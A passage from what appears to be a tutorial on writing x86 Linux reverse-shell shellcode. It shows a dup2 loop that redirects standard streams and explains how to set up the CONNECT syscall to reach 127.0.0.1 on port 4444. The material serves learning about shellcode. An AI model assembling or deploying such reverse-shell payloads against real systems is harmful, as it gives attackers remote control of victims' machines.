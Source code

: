 	    ; LOOP

    DupLoop :
	 
	    mov al, 0x3f
	    int 0x80
	    dec ecx
	    jns DupLoop	


###  <span style="color:#2d8fb3;"> Connect </span>

Then, we need to intiate a socket connection on a remote host by specifing the address and the port to connect to. For that, we use the CONNECT syscall.

    man 2 connect
    int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);

The function is composed of:

1) int sockfd : file descriptor, return value of the socket syscall

2) const struct sockaddr *addr : address argument which depends on the family

    struct sockaddr {
        sa_family_t sa_family;
        char        sa_data[14];
    }

In our case, with the Internet Family AF_INET, the address structure will be constructed as follows : 

    struct sockaddr_in {
        sa_family_t    sin_family; /* address family: AF_INET */
        in_port_t      sin_port;   /* port in network byte order */
        struct in_addr sin_addr;   /* internet address */
    };

    /* Internet address. */
    struct in_addr {
        uint32_t       s_addr;     /* address in network byte order */
    };
    
    
Note: From "/usr/src/linux-headers-5.2.0-kali2-common/include/uapi/linux/in.h"
    
- addrlen : The size, in bytes, of the address structure pointed to by addr

Useful Link:
  - <a href="https://man7.org/linux/man-pages/man7/ip.7.html" style="color:#2d8fb3;">man7.org (IP manual)</a>
  - <a href="https://www.scip.ch/en/?labs.20200521" style="color:#2d8fb3;">www.scip.ch (Example)</a>

This means that we need to pass the following registers:
- EAX = 0x66 (SOCKET_CALL)
- EBX = 0x3 (SYS_CONNECT)
- ECX (Address pointing to the arguments into the stack):
  - ECX[0] = File descriptor (Return value of the socket syscall)
  - ECX[1] (Address pointing to arguments into the stack):
    - ECX[1.0] = 0x2 (AF_INET)
    - ECX[1.1] = 0x115c (port 4444 in hexa)
    - ECX[1.2] = SYS_CONNECT (IP : 127.0.0.1)
  - ECX[2] = 0x10 (16 bytes)
